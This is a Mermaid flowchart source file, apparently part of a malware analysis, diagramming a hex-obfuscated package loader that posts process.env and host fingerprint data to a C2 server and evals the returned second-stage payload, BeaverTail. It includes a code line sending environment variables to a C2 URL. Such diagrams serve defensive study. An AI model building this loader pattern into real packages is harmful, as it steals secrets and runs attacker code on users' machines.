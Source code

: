 

```mermaid
---
title: "Flow of the HexEval Loader"
author: "Cong Le"
version: "1.0"
license(s): "MIT, CC BY-SA 4.0"
copyright: "Copyright (c) 2025 Cong Le. All Rights Reserved."
config:
  layout: elk
  theme: base
  look: handDrawn
---
%%%%%%%% Mermaid version v11.4.1-b.14
%%%%%%%% Available curve styles include the following keywords:
%% basis, bumpX, bumpY, cardinal, catmullRom, linear, monotoneX, monotoneY, natural, step, stepAfter, stepBefore.
%%{
  init: {
    'securityLevel': 'loose',
    'flowchart': { 'htmlLabels': true, 'curve': 'linear' },
    'fontFamily': 'American Typewriter',
    'themeVariables': {
      'primaryColor': '#25E3',
      'primaryTextColor': '#F8B229',
      'lineColor': '#F8B229',
      'primaryBorderColor': '#22E6',
      'secondaryColor': '#D9B2',
      'secondaryTextColor': '#6C3483',
      'secondaryBorderColor': '#A569BD',
      'fontSize': '20px'
    }
  }
}%%
flowchart TD
    Start(("Start:<br/>Package Install/Execution")) --> A["HexEval Loader Code Runs"]
    A --> B{"Define <code>g(h)</code> function"}
    B --> C["Initialize <code>hl</code> array with hex-encoded strings"]
    C --> D["Call <code>g(h)</code> for each string in <code>hl</code> to decode"]
    D --> E["Decoded <code>hl</code> contains:<br/>- <code>require</code><br/>- <code>axios</code><br/>- <code>post</code><br/>- <code>C2 URL</code><br/>- <code>then</code>"]
    E --> F["<code>require('axios').post(C2_URL, { ...process.env, ...fingerprint_data })</code>"]
    F --> |"HTTPS POST Request"| G("📡 C2 Server")
    G --> |"Response<br/>(Script as <code>r.data</code>)"| H["<code>eval(r.data)</code>"]
    H --> I("🎯 Executes Second-Stage Payload:<br/> BeaverTail")
    I --> Stop(("Payload Executed"))

    subgraph HostFingerprinting["Optional Reconnaissance"]
    style HostFingerprinting fill:#F2F2,stroke:#333,stroke-width:1px, color: #FFFF
        F1["Collect <code>process.env</code>"]
        F2["Collect <code>os.platform()</code>"]
        F3["Collect <code>os.hostname()</code>"]
        F4["Collect <code>os.userInfo().username</code>"]
        F5["Collect MAC Address"]
        F1 & F2 & F3 & F4 & F5 --> F
    end

    style Start fill:#9E92,stroke:#333,stroke-width:2px
    style Stop fill:#F961,stroke:#333,stroke-width:2px
    style G fill:#A8E6,stroke:#333,stroke-width:2px
    style H fill:#FD75,stroke:#333,stroke-width:2px
    %% style HostFingerprinting fill:#FFFACD,stroke:#CCC,stroke-width:1px,color:#555
```
